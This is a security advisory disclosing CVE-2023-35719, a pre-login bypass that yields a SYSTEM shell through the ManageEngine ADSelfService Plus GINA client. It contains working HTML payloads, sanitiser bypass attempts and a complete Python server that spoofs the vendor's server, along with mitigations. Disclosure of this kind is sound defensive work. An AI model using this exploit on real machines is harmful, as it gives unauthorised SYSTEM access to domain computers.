# Pulling `SYSTEM` out of Windows GINA 
## Authentication Bypass to `SYSTEM` shell in ManageEngine ADSelfService Plus Windows *GINA* Client
### By Pedro Ribeiro (pedrib@gmail.com | [@pedrib1337](https://twitter.com/pedrib1337)), João Bigotte and Ashley King from [Agile Information Security](https://agileinfosec.co.uk)

#### Disclosure: 2023-06-23 / Last Updated: 2023-06-23

* [Summary](#summary)
* [Vulnerability Details](#vulnerability-details)
    * [Takeaways](#takeaways)
    * [Limitations](#limitations)
* [Fixes / Mitigations](#fixes--mitigations)

## Product Information
> [ManageEngine ADSelfService Plus](https://www.manageengine.com/products/self-service-password/) is an integrated self-service password management and single sign-on solution for Active Directory and cloud apps. Ensure endpoint security with stringent authentication controls including biometrics and advanced password policy controls.
> 
> Besides the default web portal, users can reset passwords from their iOS and Android mobile devices, as well as the login screen of their Windows, macOS, or Linux machines.

## Summary

ADSelfService Plus installs a [local agent](https://www.manageengine.com/products/self-service-password/help/admin-guide/Configuration/Admin-Tools/GINA/GINA-Installation.html) (a customisation for [Windows GINA](https://docs.microsoft.com/en-us/windows/win32/secauthn/gina), henceforth referred to only as *GINA*) on managed Windows domain computers, which can be used to reset Active Directory user passwords directly from the login screen.

It is possible to use some *old skool* trickery to get a pre-authentication file dialog which can then be used to get a `SYSTEM` command shell. A video demonstrating the exploit can be seen on [YouTube](https://www.youtube.com/watch?v=u1H8PiOPIKU):

[](https://www.youtube.com/watch?v=u1H8PiOPIKU)

A very [similar vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11552) was discovered by [Bhadresh Patel](https://seclists.org/fulldisclosure/2020/Aug/4) back in 2020 and fixed in version `6.0 build 6003`.

Our vulnerability is confirmed to work all the way down to ADSelfService Plus version `4.2.9`, which was released in 2012, and up to the latest version `6.3 Build 6301` at the time of writing (2023-06-23).

It was found in 2022 during a penetration test of a major financial institution, and responsibly disclosed to the good folks at the [Zero Day Initiative](https://www.zerodayinitiative.com/) (ZDI), which in turn disclosed it to the vendor ([ManageEngine](https://www.manageengine.com/)).
After waiting 418 days for a fix that never came, ZDI decided to [release it to the public](https://www.zerodayinitiative.com/advisories/ZDI-23-891/) as a zero day on 2023-06-21.

This advisory [was published](https://github.com/pedrib/PoC/blob/master/advisories/ManageEngine/adselfpwnplus/adselfpwnplus.md) to Pedro's [GitHub repository](https://github.com/pedrib/PoC) on 2023-06-23 and the vulnerability is tracked as [CVE-2023-35719](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-35719) / [ZDI-23-891](https://www.zerodayinitiative.com/advisories/ZDI-23-891/).


## Vulnerability Details
* [CWE-288: Authentication Bypass Using an Alternate Path or Channel](https://cwe.mitre.org/data/definitions/288.html)
* [CVE-2023-35719](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-35719) / [ZDI-23-891](https://www.zerodayinitiative.com/advisories/ZDI-23-891/)
* Risk Classification: Critical
* Attack Vector: Local
* Constraints: Physical access required
* Affected versions: from at least `v4.2.9` up to the latest `6.3 Build 6301`

Once GINA is installed, the Windows login screen of the managed computer looks like this:


> Image #1: Windows login screen with GINA installed

If we click any of the options inside the red boxes above, we get the following screen, which allows us to reset the user's domain password:


> Image #2: Resetting a user's password via GINA

This clearly runs in an embedded browser window. What happens if we disconnect the network and GINA can't reach the ADSelfService Plus server?


> Image #3: Failure to reach `adselfpwnplus.com` domain controller

What happens if we click "*Search for this site in Bing*"?


> Image #4: External URL access denied

Old skoolers recognise an easy attack vector: go to Bing, try to find a file open dialog, and then just run `cmd.exe` as `SYSTEM`!

Unfortunately, as you can see it's not that easy. A pop-up with "*External URL access is denied.*" is shown, and the window closes. None of the typical Internet Explorer shortcuts work either, so we can't open dialogs, click + CTRL, press F keys, "View Source", etc.

But notice that it is trying to contact the `adselfservicepwn.com` server on port 8888. 
Let's connect the computer to another network we control, outside of the normal domain network. Plenty of options here, we can connect an Ethernet cable to another network, or just pick a Wi-Fi network from the login screen. There are no network connection restrictions (by default) in the pre-authentication Windows login screen.

Once we are connected to a network we control, we can spoof the `adselfpwnplus.com` server, and invoke the reset password screen again.

When it tries to access the `adselfpwnplus.com` host, GINA sends the following request:

```
GET /AgentStatusUpdate.cc?status=adssp_admin_gina_install_success&machineName=<MACHINE_NAME>
&domainName=<DOMAIN_NAME>&version=5.9&defUser=ADSELFPWNPLUS\normaluser& HTTP/1.1
```

Let's serve `AgentStatusUpdate.cc` in our spoofed server and send:
```html
<html><body><b>HELLO GINA!</b></body></html>
```

... and it works!


> Image #5: We got our HTML displayed

Let's try and open a file dialog with:
```html
<html><body><input type="file">hello</body></html>
```

And this happens:


> Image #6: File dialogs get scrubbed

It seems that *something* deleted our file dialog (our "hello" is there). And this happens with almost every technique you can think of:

```html
<a href="C:\windows\" /a>open windows fails</a>
<script>document.write('<input/type=file>')</script>
<input type="file" id="myfile" name="myfile">
<a href="mailto:me@mail.com">this doesn't work</a>
<a href="file:///c:\">this neither</a>
```

Apparently there's some sort of blacklist or sanitisation routine being applied to the HTML input that is displayed in GINA's embedded browser window.
But by mining the Internet we come across [Give me a browser, I’ll give you a Shell](https://systemweakness.com/give-me-a-browser-ill-give-you-a-shell-de19811defa0) by *Rend*, which says:
> what if the devtools is disabled for any reason?
> let me introduce you to another interesting protocol: `javascript`
> if the browser is chromium-based you can enter this into the URL bar and get the same result: `javascript:document.write('<input/type=file>')`

Let's update our html code:
```html
<html><body><a href=\"javascript:document.write('<input/type=file>')\">Open up your GINA</a></body></html>
```

Since the embedded browser is Microsoft Edge (default Windows 10 browser), which is Chromium based, we get a clickable link (*NOTE: we tried this in Windows 7 running Internet Explorer 11 and it also worked!*):


> Image #7: GINA asking for it

We click on it, and FINALLY have our file dialog!


> Image #8: File dialog is here!

Now exploitation is trivial, just browse to `C:\Windows\System32` and look for `cmd.exe`:


> Image #9: Browsing to `cmd.exe`

Right click it, press "Open" and here is GINA giving us a pre-authentication `SYSTEM` shell!


> Image #10: GINA finally opens up and gives us its `SYSTEM` shell

As a side note, older versions of ADSelfService Plus do NOT block Bing search and do not block HTML file dialogs, providing us with two other methods of getting our shell. This was confirmed to work at least on v4.2.9.

### Takeaways
* Blacklists do not work.
* It is very hard to secure embedded browsers in the Windows operating system.
* ManageEngine (makers of ADSelfService Plus) are a steaming pile of crap, being constantly pwned since at least 2014 (see [my other advisories here](https://github.com/pedrib/PoC/tree/master/advisories/ManageEngine) and also check out my very own [ManageOwnage series](https://seclists.org/fulldisclosure/2015/Jan/5) on the Full Disclosure mailing list). Throughout the years [several](https://srcincite.io/advisories/src-2020-0011/) other [researchers](https://www.tenable.com/security/research/tra-2017-31) also found critical vulnerabilities in ManageEngine products.

### Limitations
This authentication bypass only works when GINA uses standard HTTP to communicate with the ADSelfService Plus server. However, that is the **default** option when ADSelfService Plus is installed. 

If HTTPS communication is turned on, it also works when the *"Restrict user access when there is an invalid SSL certificate"* GINA option is turned off (this is configured in the login agent advanced settings, and it's on by default when HTTPS is used). This setting is controlled in the computer where the agent is installed by the registry key `HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\ZOHO Corp\ADSelfService Plus Client Software\RestrictBadCert`. 

ManageEngine's staff actually *recommend* disabling this option (making the product less secure) in their [community forums](https://pitstop.manageengine.com/portal/en/community/topic/this-site-is-not-secure-logon-screen-only) as a solution for when customers are having problems with custom TLS certificates (see screenshot below for details).


> Image #11: Bad advice being given by ManageEngine Support staff

[Bhadresh Patel's advisory](https://seclists.org/fulldisclosure/2020/Aug/4) actually relies on this option being turned off in order to perform his attack, as it can be seen in his [YouTube video](https://www.youtube.com/watch?v=slZRXffswnQ). Our attack is an improvement on Bhadresh Patel's, as it works in the exact same situation as his, plus it also works when using plain HTTP (Bhadresh Patel's did not, as it requires a TLS certificate warning to be displayed by the embedded browser).

To perform our attack with HTTPS, we simply create our a self signed certificate for our malicious server. We follow the same steps described above and accept the invalid TLS certificate browser warning. Once accepted, we will be shown the same "Open up your GINA" link that results in a file dialog.

This vulnerability was discovered during an on-site penetration test in a real corporate environment, where version `4.2.9` was used. With this version, we were able to get our shell even with the server configured to use HTTPS with two techniques: the one we describe in this advisory; and by clicking *"Search for this site in Bing"* and browsing to the venerable [iKat](https://www.ikat.kronicd.net/) to get our file dialog. 

It is likely that there are many vulnerable ADSelfService Plus versions where this vulnerability can be exploited with [Bing](https://www.bing.com/) over HTTPS before ManageEngine introduced the *"External URL access denied"* pop-up which is shown above.

## Fixes / Mitigations
* Do not install the ManageEngine GINA agent on Active Directory computers, as ADSelfService Plus has a history of vulnerabilities, and it is very unlikely this is the last critical one. We barely touched it and it fell apart instantly.
* If it is absolutely necessary to have it installed, ensure the communication with the ADSelfService Plus server is done over HTTPS with a valid TLS certificate, and renew it regularly.
* Set the Group Policy settings to disallow users to connect to arbitrary networks from the Windows login screen, as [described here](https://www.tenforums.com/tutorials/61731-add-remove-network-icon-lock-sign-screen-windows-10-a.html).
    * It is unclear if this will disable automatic network connections using DHCP when plugging in an Ethernet cable on the login screen, as we have not tested it.
    * This won't fix the problem if the attacker is able to fully replicate the legitimate network configuration in its entirety, but might still be useful to deter "casual" attackers.
* If updating existing installations with insecure settings, it is not enough to change the TLS GINA agent settings in the server. The settings also need to be applied to each client individually.

## Appendix: Python server
This is an HTTP Python server that listens on IP address `13.33.37.1`, TCP port 8888 for a HTTP GET request and returns the HTML payload specified above. 
Replace `13.33.37.1` with whatever IP address you need to spoof (the ADSelfService Plus server address), and add a DNS entry for `YOUR_DOMAIN_NAME` to point to `13.33.37.1`.

```python
#!/usr/bin/env python3
#
# Python HTTP server for exploiting CVE-2023-35719 / ZDI-23-891
# Auth Bypass to SYSTEM shell in ManageEngine ADSelfService Plus Windows GINA Client
# https://github.com/pedrib/PoC/blob/master/advisories/ManageEngine/adselfpwnplus/adselfpwnplus.md
#
# By:
#
# Pedro Ribeiro (pedrib@gmail.com|@pedrib1337)
# João Bigotte
# Ashley King
#
# Agile Information Security (https://agileinfosec.co.uk)

from http.server import BaseHTTPRequestHandler, HTTPServer

# HTTPRequestHandler class
class CustomRequestHandler(BaseHTTPRequestHandler):

  # GET
  def do_GET(self):
        # Send response status code
        self.send_response(200)

        # Send headers
        self.send_header('Content-type','text/html')
        self.end_headers()

        # Send message back to client
        message = "<html><body><a href=\"javascript:document.write('<input/type=file>')\">Open up your GINA</a></body></html>"

        # Write content as utf-8 data
        self.wfile.write(bytes(message, "utf8"))
        print("done")
        return

def run():
  print('starting server...')

  # enter your listening address and port here for the ADSelfService Plus server spoof
  # do not forget to add a dns entry for your domain name to point to this IP
  server_address = ('13.33.37.1', 8888)
  httpd = HTTPServer(server_address, CustomRequestHandler)
  print('running server...')
  httpd.serve_forever()


run()
```

## Disclaimer
Please note that Agile Information Security Limited (Agile InfoSec) relies on information provided by the vendor / product manufacturer when listing fixed versions, products or releases. Agile InfoSec does not verify this information, except when specifically mentioned in the advisory text and requested or contracted by the vendor to do so.
Unconfirmed vendor fixes might be ineffective, incomplete or easy to bypass and it is the vendor's responsibility to ensure all the vulnerabilities found by Agile InfoSec are resolved properly. Agile InfoSec usually provides the information in its advisories free of charge to the vendor, as well as a minimum of six months for the vendor to resolve the vulnerabilities identified in its advisories before they are made public.
Agile InfoSec does not accept any responsibility, financial or otherwise, from any material losses, loss of life or reputational loss as a result of misuse of the information or code contained or mentioned in its advisories. It is the vendor's responsibility to ensure their products' security before, during and after release to market.

## License
All information, code and binary data in this advisory is released to the public under the [GNU General Public License, version 3 (GPLv3)](https://www.gnu.org/licenses/gpl-3.0.en.html). For information, code or binary data obtained from other sources that has a license which is incompatible with GPLv3, the original license prevails.
